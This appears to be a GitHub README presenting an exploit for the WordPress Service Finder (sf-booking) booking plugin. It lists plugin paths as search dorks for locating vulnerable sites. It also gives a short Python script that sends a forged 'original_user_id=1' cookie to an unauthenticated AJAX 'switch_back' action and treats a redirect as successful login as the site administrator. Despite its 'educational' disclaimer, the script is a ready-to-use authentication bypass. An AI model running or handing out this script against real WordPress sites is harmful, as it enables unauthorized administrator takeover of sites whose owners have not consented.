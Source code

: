 # 🔍 WordPress Plugin Exploit — Service Finder (sf-booking)

## Overview

The **Service Finder** plugin is a booking and service management system for WordPress.  
Because of its popularity and complexity, some versions have had security issues related to **unauthenticated AJAX endpoints** or improper access controls.

This README explains how researchers can safely fingerprint installations and follow ethical practices (dbr krk).

---

##  Vulnerable WP dorks

`/wp-content/plugins/service-finder/`

`/wp-content/plugins/service-finder-bookings/`

`/wp-content/plugins/sf-booking/` 

---

##  Exploit Workflow

> ⚠️ **Disclaimer:**  
> These searches are for **educational** and **research** use only. Do **not** attempt unauthorized access or exploitation.

```python
import requests

url = "https://example.com/wp-admin/admin-ajax.php?action=service_finder_switch_back"
cookies = {
    'original_user_id': '1',
}

r = requests.get(url, cookies=cookies)
print(r.status_code)
print(r.text)
```

* `300-399`: ✅ VULN ! Redirect to admin panel as ADMIN
* `400-499`: ⚠️ Client error — the request was invalid or unauthorized, not vuln

---

## References

- WPScan Plugin Database — https://wpscan.com/plugins/  
- National Vulnerability Database (NVD) — https://nvd.nist.gov/  
- OWASP — Google Dorking / reconnaissance techniques  
- HackerOne Disclosure Guidelines — https://www.hackerone.com/disclosure-guidelines

---

##  Author

**[Taha Mounir](https://github.com/M4rgs)**

---